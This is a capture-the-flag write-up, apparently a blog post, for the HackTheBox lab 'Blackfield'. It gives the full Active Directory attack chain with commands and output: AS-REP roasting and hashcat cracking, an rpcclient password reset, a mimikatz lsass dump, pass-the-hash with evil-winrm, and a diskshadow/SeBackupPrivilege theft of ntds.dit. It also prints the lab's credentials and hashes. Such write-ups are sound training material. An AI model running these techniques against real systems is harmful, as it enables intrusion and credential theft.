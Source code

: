 ```yaml
---
title: "HTB: Blackfield"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Blackfield](/assets/images/Blackfield.PNG)

# Blackfield

## Nmap Scan

```
Nmap scan report for 10.10.10.192
Host is up (0.045s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP

Nmap done: 1 IP address (1 host up) scanned in 4.71 seconds
```

## Initial Enumeration

We can see that a SMB share is open. If we connect to the smbshare with Guest:*blank* we can list the shares. The interesting share here is profiles$

```
smbclient Guest@10.10.10.192

# shares
ADMIN$
C$
forensic
IPC$
NETLOGON
profiles$
SYSVOL
```

profiles$ seems to give us a list of users, and since ldap and kerberos are both publically exposed, we can try seeing if any of these accounts don't have preauth set:


From here, we can use kerbrute to try a simple password spray against these usernames:

```
kerbrute passwordspray --dc 10.10.10.192 -d BLACKFIELD.local --user-as-pass userlist.txt -v
```

Only one account seems to exist, but it gives us a very interesting message:

```
2020/06/08 09:33:28 >  [!] support@BLACKFIELD.local:support - Got AS-REP (no pre-auth) but couldn't decrypt - bad password                               
```

It appears that this account is kerberoastable, but we'll need to add the domain "BLACKFIELD.local" to our /etc/hosts file first. After doing that, we can use impacket to get the krb5 hash, using a blank password:

```
GetNPUsers.py BLACKFIELD.local/support

$krb5asrep$23$support@BLACKFIELD.LOCAL:4d7b0ac10bb75f90b4b01004d2d679a1$d3cfdcd5f7aa151876e17385af9057c071fddcec5f4792d83a737f1b24d4b6cdd6d859fdc43c7d7c6e69b6900526f711cb23096ea32cad30fd4bfdf0d21076a08a4a81ae449dc8d59b26905f165b498c89a6d5820964171f4aa4adcc9f25d228758a4f7006451d6713359314e93feecebabcb62737197df1bb74a560f2727331c39015093a07721a58523908b366cd29e0792375dc7b91dff0ce11dc706d7650f56a159eb1085797b843e5186d11ed777f36a6f7d31b376939e2e02402aeb5e5e4b08f3920d1daa05f53b6b3a3f6ac5f54e708f2acfb80af59fab2bd91424ecc5d0d4e90a7eec7b6d96f3c1b17f96a280f4ce2cc
```

We can crack this with hashcat:

```
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --force

#00^BlackKnight
```

We have valid credentials:

**support:#00^BlackKnight**

We now need to check what they work on. This user doesn't have Remote Management rights, so we can't use winrm to remote into the machine. The credentials do work on smb, but don't give us anything we didn't have with the basic guest account. We can get a list of AD users, with GetADUsers.py:

```
GetADUsers.py -dc-ip 10.10.10.192 BLACKFIELD.local/support
#00^BlackKnight
```

While enumerating what else we can do with these credentials, we can consider what else this user might do for other users. Since a support user might reset passwords, we'll see if we can reset any passwords using rpcclient:

```
rpcclient -U support //10.10.10.192

setuserinfo2 audit2020 23 'thisISmyPASSWORD!'
```

This appears to go through, and lets us log in to SMB with the audit2020 user! While exploring smb with this user, we see that we now have access to the forensic folder.

Looking through the forensic folder, we see that there's an lsass.zip file in memory_analysis, that we can pull hashes from. To do this, we can transfer the zip over to a Windows VM, start up mimikatz with an administrator cmd.exe console, and use the following commands:

```
privilege::debug
sekurlsa::minidump lsass.DMP
sekurlsa::LogonPasswords
```

We get a number of hashes, but the most interesting are the Administrator and svc_backup hashes.

```
         * Username : Administrator
         * Domain   : BLACKFIELD
         * NTLM     : 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
         * SHA1     : db5c89a961644f0978b4b69a4d2a2239d7886368
         * DPAPI    : 240339f898b6ac4ce3f34702e4a89550


         * Username : svc_backup
         * Domain   : BLACKFIELD
         * NTLM     : 9658d1d1dcd9250115e2205d9f48400d
         * SHA1     : 463c13a9a31fc3252c68ba0a44f0221626a33e5c
         * DPAPI    : a03cd8e9d30171f3cfe8caad92fef621
```

We can use these hashes without cracking them with evil-winrm. The Administrator hash doesn't work, but svc_backup's hash still works:

```
evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192

*Evil-WinRM* PS C:\Users\svc_backup\Documents> 
```

Looking at our privileges show us that we're in the Backup Operators group, since we have the following privileges:

```
...
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
...
```

We'll can use the exploit at the following link to grab ntds.dit and get the hashes for every user on the box:

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group

We'll use the following script named cmd, and put it in C:\Windows\temp\:

NOTE: We need to add a couple "spaces" after each line, or it'll cut off the characters at the end of each line.

cmd:
```
set context persistent nowriters 
add volume c: alias temp
create
expose %temp% z:
```

Now, we need to run diskshadow:

```
diskshadow.exe /s C:\windows\temp\cmd
```

We'll grab the two dlls from https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug and import them, then run the following to grab ntds.dit from our new Z: backup:

```
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\tmp\ntds.dit -Overwrite
```

We just need to grab SYSTEM to pull down the hashes:

```
reg save HKLM\SYSTEM system.save
```

Now, we can download these to our attacking machine using evil-winrm, and pull our the hashes with secretsdump.py from impacket:

```
secretsdump.py -system system.save -ntds ntds.dit LOCAL

...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
...
```

We don't need to crack this, since we can just pass the hash with evil-winrm!

```
evil-winrm -u Administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.10.10.192

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```

Voila, we have root!

As a note, we could have also used psexec.py to get a SYSTEM level shell, but only the Administrator user can read root.txt

```
C:\Users\Administrator\Desktop>whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
b'Access is denied.\r\n'
```
